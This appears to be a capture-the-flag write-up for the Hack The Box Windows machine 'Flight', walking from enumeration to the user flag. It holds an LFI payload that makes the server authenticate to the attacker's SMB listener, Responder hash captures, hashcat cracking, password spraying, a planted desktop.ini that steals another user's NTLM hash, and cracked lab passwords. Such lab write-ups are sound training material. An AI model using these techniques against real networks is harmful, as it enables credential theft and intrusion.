

`Box: Medium Windows`
### `Index`
1. [Box-Info](#Box-Info)
2. [Initial-Nmap](#Initial-Nmap)
3. [Web-Enum](#Web-Enum)
	1. [NTLM_Relay_Attack_Through_LFI](#NTLM_Relay_Attack_Through_LFI)
	2. [Cracking_The_Hash](#Cracking_The_Hash)
	3. [SMB-Enum-using-svc_apache](#SMB-Enum-using-svc_apache)
	4. [RID-Brute_Using-svc_apache](#RID-Brute_Using-svc_apache)
	5. [Failed_Evil-WinRM_for_User_Smoon](#Failed_Evil-WinRM_for_User_Smoon)
	6. [ntlm_theft_stealing_NTLM_Hash](#ntlm_theft_stealing_NTLM_Hash)
	7. [Cracking_NTLM_Hash](#Cracking_NTLM_Hash)
	8. [NetExec_SMB_Share_Enum](#NetExec_SMB_Share_Enum)
	9. [User_Flag_Captured](#User_Flag_Captured)

### `Box-Info`
```
Flight is a hard Windows machine that starts with a website with two different virtual hosts. One of them is vulnerable to LFI and allows an attacker to retrieve an NTLM hash. Once cracked, the obtained clear text password will be sprayed across a list of valid usernames to discover a password re-use scenario. Once the attacker has SMB access as the user `s.moon` he is able to write to a share that gets accessed by other users. Certain files can be used to steal the NTLMv2 hash of the users that access the share. Once the second hash is cracked the attacker will be able to write a reverse shell in a share that hosts the web files and gain a shell on the box as low privileged user. Having credentials for the user `c.bum`, it will be possible to gain a shell as this user, which will allow the attacker to write an `aspx` web shell on a web site that&amp;amp;amp;#039;s configured to listen only on localhost. Once the attacker has command execution as the Microsoft Virtual Account he is able to run Rubeus to get a ticket for the machine account that can be used to perform a DCSync attack ultimately obtaining the hashes for the Administrator user.
```
### `Initial-Nmap`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.11.187
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: g0 Aviation
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-13 13:33:09Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
```
### Web-Enum
```
# ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.flight.htb" -u http://flight.htb -fl 155
school                  [Status: 200, Size: 3996, Words: 1045, Lines: 91, Duration: 116ms]
```

Looking at the `http://school.flight.htb`, I notice the LFI attack vector.

##### NTLM_Relay_Attack_Through_LFI

Starting the responder and use the following payload after `view=` in the URL.
```
school.flight.htb/index.php?view=//10.10.14.3/test
```

On the Responder side
```
# responder -I tun0
[SMB] NTLMv2-SSP Client   : 10.10.11.187
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash     : svc_apache::flight:982d58f09fdd403a:305F3D59F26F649EEFA867354F68A4EC:010100000000000000131CFC6C35DB0161F7ED32C7B726C300000000020008003200340052004E0001001E00570049004E002D004900500032005300450051005900390056004400490004003400570049004E002D00490050003200530045005100590039005600440049002E003200340052004E002E004C004F00430041004C00030014003200340052004E002E004C004F00430041004C00050014003200340052004E002E004C004F00430041004C000700080000131CFC6C35DB0106000400020000000800300030000000000000000000000000300000E94E52E16BE52276EB100527A5087DE7E2ED8A3603E5AE88EADD6EC0257A35060A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0033000000000000000000 
```

##### Cracking_The_Hash
```
# hashcat -m 5600 -a 0 NTLM_svc_apache /usr/share/wordlists/rockyou.txt
SVC_APACHE::flight:982d58f09fdd403a:305f3d59f26f649eefa867354f68a4ec:010100000000000000131cfc6c35db0161f7ed32c7b726c300000000020008003200340052004e0001001e00570049004e002d004900500032005300450051005900390056004400490004003400570049004e002d00490050003200530045005100590039005600440049002e003200340052004e002e004c004f00430041004c00030014003200340052004e002e004c004f00430041004c00050014003200340052004e002e004c004f00430041004c000700080000131cfc6c35db0106000400020000000800300030000000000000000000000000300000e94e52e16be52276eb100527a5087de7e2ed8a3603e5ae88eadd6ec0257a35060a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0033000000000000000000:S@Ss!K@*t13

Session..........: hashcat
Status...........: Cracked
```
##### SMB-Enum-using-svc_apache
```
# netexec smb 10.10.11.187  -u 'svc_apache' -p 'S@Ss!K@*t13' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [*] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share 
SMB         10.10.11.187    445    G0               Shared          READ            
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share 
SMB         10.10.11.187    445    G0               Users           READ            
SMB         10.10.11.187    445    G0               Web             READ
```

##### RID-Brute_Using-svc_apache
```
# netexec smb 10.10.11.187  -u 'svc_apache' -p 'S@Ss!K@*t13' --rid-brute
SMB         10.10.11.187    445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               498: flight\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.187    445    G0               500: flight\Administrator (SidTypeUser)
SMB         10.10.11.187    445    G0               501: flight\Guest (SidTypeUser)
SMB         10.10.11.187    445    G0               502: flight\krbtgt (SidTypeUser)
SMB         10.10.11.187    445    G0               512: flight\Domain Admins (SidTypeGroup)
SMB         10.10.11.187    445    G0               513: flight\Domain Users (SidTypeGroup)
SMB         10.10.11.187    445    G0               514: flight\Domain Guests (SidTypeGroup)
SMB         10.10.11.187    445    G0               515: flight\Domain Computers (SidTypeGroup)
SMB         10.10.11.187    445    G0               516: flight\Domain Controllers (SidTypeGroup)
SMB         10.10.11.187    445    G0               517: flight\Cert Publishers (SidTypeAlias)
SMB         10.10.11.187    445    G0               518: flight\Schema Admins (SidTypeGroup)
SMB         10.10.11.187    445    G0               519: flight\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.187    445    G0               520: flight\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.187    445    G0               521: flight\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.187    445    G0               522: flight\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.187    445    G0               525: flight\Protected Users (SidTypeGroup)
SMB         10.10.11.187    445    G0               526: flight\Key Admins (SidTypeGroup)
SMB         10.10.11.187    445    G0               527: flight\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.187    445    G0               553: flight\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.187    445    G0               571: flight\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.187    445    G0               572: flight\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.187    445    G0               1000: flight\Access-Denied Assistance Users (SidTypeAlias)
SMB         10.10.11.187    445    G0               1001: flight\G0$ (SidTypeUser)
SMB         10.10.11.187    445    G0               1102: flight\DnsAdmins (SidTypeAlias)
SMB         10.10.11.187    445    G0               1103: flight\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.187    445    G0               1602: flight\S.Moon (SidTypeUser)
SMB         10.10.11.187    445    G0               1603: flight\R.Cold (SidTypeUser)
SMB         10.10.11.187    445    G0               1604: flight\G.Lors (SidTypeUser)
SMB         10.10.11.187    445    G0               1605: flight\L.Kein (SidTypeUser)
SMB         10.10.11.187    445    G0               1606: flight\M.Gold (SidTypeUser)
SMB         10.10.11.187    445    G0               1607: flight\C.Bum (SidTypeUser)
SMB         10.10.11.187    445    G0               1608: flight\W.Walker (SidTypeUser)
SMB         10.10.11.187    445    G0               1609: flight\I.Francis (SidTypeUser)
SMB         10.10.11.187    445    G0               1610: flight\D.Truff (SidTypeUser)
SMB         10.10.11.187    445    G0               1611: flight\V.Stevens (SidTypeUser)
SMB         10.10.11.187    445    G0               1612: flight\svc_apache (SidTypeUser)
SMB         10.10.11.187    445    G0               1613: flight\O.Possum (SidTypeUser)
SMB         10.10.11.187    445    G0               1614: flight\WebDevs (SidTypeGroup)
```

```
# cat users | awk '/SMB/ {print $6}' > usernames
# cat usernames 
flight\Administrator
flight\Guest
flight\krbtgt
flight\S.Moon
flight\R.Cold
flight\G.Lors
flight\L.Kein
flight\M.Gold
flight\C.Bum
flight\W.Walker
flight\I.Francis
flight\D.Truff
flight\V.Stevens
flight\svc_apache
flight\O.Possum
flight\WebDevs
```

```
# netexec smb 10.10.11.187  -u usernames -p 'S@Ss!K@*t13' --continue-on-success
SMB         10.10.11.187    445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [-] flight\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [+] flight\S.Moon:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [-] flight\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [+] flight\svc_apache:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [-] flight\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight\WebDevs:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
```

##### Failed_Evil-WinRM_for_User_Smoon
```
# evil-winrm -i 10.10.11.187 -u 'S.Moon' -p 'S@Ss!K@*t13'
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type HTTPClient::ConnectTimeoutError happened, message is execution expired
Error: Exiting with code 1
```

```
# netexec smb 10.10.11.187  -u 's.moon' -p 'S@Ss!K@*t13' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\s.moon:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [*] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share 
SMB         10.10.11.187    445    G0               Shared          READ,WRITE      
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share 
SMB         10.10.11.187    445    G0               Users           READ            
SMB         10.10.11.187    445    G0               Web             READ            
```

Now that we have the `Write` access to `Shared`.
##### ntlm_theft_stealing_NTLM_Hash
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/ntlm_theft]
└─# python ntlm_theft.py -vv -g desktopini -s 10.10.14.5 -f flight_htb
Created: flight_htb/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```
Generating `desktopini`.
```
┌──(root㉿kali)-[/home/…/Downloads/Tools/ntlm_theft/flight_htb]
└─# smbclient -U 's.moon%S@Ss!K@*t13' //10.10.11.187/Shared
Try "help" to get a list of possible commands.
smb: \> mput *
Put file desktop.ini? yes
putting file desktop.ini as \desktop.ini (0.1 kb/s) (average 0.1 kb/s)
smb: \> dir
  .                                   D        0  Thu Nov 14 07:03:28 2024
  ..                                  D        0  Thu Nov 14 07:03:28 2024
  desktop.ini                         A       46  Thu Nov 14 07:03:28 2024
  flight_htb-(fulldocx).xml           A    72584  Thu Nov 14 07:02:53 2024
  flight_htb-(stylesheet).xml         A      162  Thu Nov 14 07:02:48 2024

		5056511 blocks of size 4096. 1204678 blocks available
```

On the Responder side
```
┌──(root㉿kali)-[/home/ringbuffer]
└─# responder -I tun0
[SMB] NTLMv2-SSP Client   : 10.10.11.187
[SMB] NTLMv2-SSP Username : flight.htb\c.bum
[SMB] NTLMv2-SSP Hash     : c.bum::flight.htb:26162c0139d8a811:381EB5829EE3098B2278619ABCA7D2DE:0101000000000000808C20212636DB01AEC35FDC619B69A700000000020008003200440033004C0001001E00570049004E002D00360035005500360056004600510052004A003600550004003400570049004E002D00360035005500360056004600510052004A00360055002E003200440033004C002E004C004F00430041004C00030014003200440033004C002E004C004F00430041004C00050014003200440033004C002E004C004F00430041004C0007000800808C20212636DB0106000400020000000800300030000000000000000000000000300000E94E52E16BE52276EB100527A5087DE7E2ED8A3603E5AE88EADD6EC0257A35060A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0035000000000000000000                                                                                                                        
[*] Skipping previously captured hash for flight.htb\c.bum
[*] Skipping previously captured hash for flight.htb\c.bum

```

##### Cracking_NTLM_Hash
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Flight.htb]
└─# hashcat -m 5600 -a 0 ntlm_cbum  /usr/share/wordlists/rockyou.txt
C.BUM::flight.htb:26162c0139d8a811:381eb5829ee3098b2278619abca7d2de:0101000000000000808c20212636db01aec35fdc619b69a700000000020008003200440033004c0001001e00570049004e002d00360035005500360056004600510052004a003600550004003400570049004e002d00360035005500360056004600510052004a00360055002e003200440033004c002e004c004f00430041004c00030014003200440033004c002e004c004f00430041004c00050014003200440033004c002e004c004f00430041004c0007000800808c20212636db0106000400020000000800300030000000000000000000000000300000e94e52e16be52276eb100527a5087de7e2ed8a3603e5ae88eadd6ec0257a35060a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0035000000000000000000:Tikkycoll_431012284
                                                          
Session..........: hashcat
Status...........: Cracked

```

##### NetExec_SMB_Share_Enum
```
# netexec smb 10.10.11.187  -u 'c.bum' -p 'Tikkycoll_431012284' --shares
SMB         10.10.11.187    445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\c.bum:Tikkycoll_431012284 
SMB         10.10.11.187    445    G0               [*] Enumerated shares
SMB         10.10.11.187    445    G0               Share           Permissions     Remark
SMB         10.10.11.187    445    G0               -----           -----------     ------
SMB         10.10.11.187    445    G0               ADMIN$                          Remote Admin
SMB         10.10.11.187    445    G0               C$                              Default share
SMB         10.10.11.187    445    G0               IPC$            READ            Remote IPC
SMB         10.10.11.187    445    G0               NETLOGON        READ            Logon server share 
SMB         10.10.11.187    445    G0               Shared          READ,WRITE      
SMB         10.10.11.187    445    G0               SYSVOL          READ            Logon server share 
SMB         10.10.11.187    445    G0               Users           READ            
SMB         10.10.11.187    445    G0               Web             READ,WRITE 
```

##### User_Flag_Captured
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Flight.htb]
└─# smbclient -U 'c.bum%Tikkycoll_431012284' //10.10.11.187/Users
smb: \C.bum\Desktop\> get user.txt
getting file \C.bum\Desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Flight.htb]
└─# cat user.txt           
5da8288********************
```
